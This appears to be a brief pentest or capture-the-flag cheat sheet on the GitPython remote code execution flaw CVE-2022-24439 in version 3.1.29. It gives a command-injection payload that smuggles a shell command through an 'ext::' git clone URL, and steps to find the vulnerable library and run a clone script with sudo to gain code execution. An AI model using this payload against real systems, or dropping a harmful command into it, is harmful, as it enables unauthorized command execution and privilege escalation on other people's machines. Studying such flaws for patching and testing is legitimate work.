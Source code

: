 # Git Python RCE CVE-2022-24439.md

### Vulnerable Library version: 3.1.29

### Payload: <gitpython::clone> 'ext::sh -c touch% /tmp/pwned'

### Enumeration:

 - 1) pip3 list (Check for all python libraries and dependencies installed on the machine)
  
 - 2) If the Git Python library we found is vulnerable, we can execute the corresponding python program with the payload to RCE
  
 - 3) sudo /usr/bin/python3 /path/to/gitclone.py 'ext::sh -c touch% /tmp/pwned'
